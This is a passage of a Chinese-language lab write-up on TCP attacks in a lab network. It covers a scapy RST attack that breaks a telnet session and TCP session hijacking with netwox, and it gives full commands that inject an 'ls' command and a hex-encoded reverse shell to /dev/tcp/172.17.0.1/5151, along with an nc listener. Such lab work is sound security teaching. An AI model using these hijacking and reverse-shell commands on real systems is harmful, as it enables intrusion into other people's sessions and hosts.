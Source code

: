 先运行scapy自动攻击脚本，然后开启 10.10.51.3 和 10.10.51.2 之间的telnet通信，观察到telnet会
话被成功打断，如下图：  

![image-20220410205825023](readme.assets/image-20220410205825023.png)

抓包抓出来大量RST

![image-20220410205957778](readme.assets/image-20220410205957778.png)

# 会话劫持

## 用netwox进行TCP会话劫持攻击，包括注入普通命令和反向shell  

### 普通命令

![image-20220410211432495](readme.assets/image-20220410211432495.png)



```bash
# 劫持TCP并注入ls命令
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40502 --tcp-dst 23 --tcp-seqnum 531069635 --tcp-acknum 497783905 --tcp-ack --tcp-window 227 --tcp-data "6c730d00"

```

### 

![image-20220410212109026](readme.assets/image-20220410212109026.png)

![image-20220410212121385](readme.assets/image-20220410212121385.png)

发送的命令

![image-20220410212201034](readme.assets/image-20220410212201034.png)

ls命令返回的数据

![image-20220410212229516](readme.assets/image-20220410212229516.png)

同时根据上图黑色部分的数据包可以得知，telnet失效。这是由于发送劫持数据包并返回数据后，目标
机期望得到的ACK序号已被更新，而原有的会话持有者发送的数据包ACK序号仍保持原状，因此会被目
标机丢弃。此时telnet连接端的用户机现象为 卡死 ，即对输入无任何响应（包括回显输入）。  

### 反向shell

![image-20220410220256396](readme.assets/image-20220410220256396.png)

```bash
# 劫持TCP并注入反向shell命令"/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
nc -l 5151 -v 
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40516 --tcp-dst 23 --tcp-seqnum 2949220429 --tcp-acknum 3070177808 --tcp-ack --tcp-window 227 --tcp-data "2f62696e2f62617368202d69203e202f6465762f7463702f3137322e31372e302e312f3531353120303c263120323e26310d0a00"
```
